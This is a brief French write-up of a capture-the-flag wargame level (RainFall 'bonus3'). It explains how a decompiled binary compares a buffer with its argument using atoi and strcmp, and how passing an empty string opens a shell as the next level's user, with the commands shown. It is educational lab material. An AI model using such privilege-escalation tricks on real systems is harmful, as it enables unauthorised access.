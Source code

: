 # Bonus 2

En ouvrant l'executable dans cuter on peut voir plusieure chose 
- un open de `/home/user/end/.pass"`
- une condition qui execute un `/bin/sh`
- un atoi et strcmp qu'on pourrais overflow
on peut voir que la condition demande que le buffer soit egale au premier argument
```
if (strcmp(buffer, av[1]) == 0)
```
On peut voir avant la condition que le programme met un `\0` a l'`atoi` de `av[1]` dans le buffer donc en mettant une chaine vide en parametre le `strcmp`comparera deux chaine vide. En metant "0" `atoi` sortira bien 0 mais les deux chaine ne seront plus egale. 
```
bonus3@RainFall:~$ ./bonus3 "0"
(
	av[1] = "0"
	buff = ""
)
```
Donc il suffi de lancer le programme avec un argument vide
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$  
```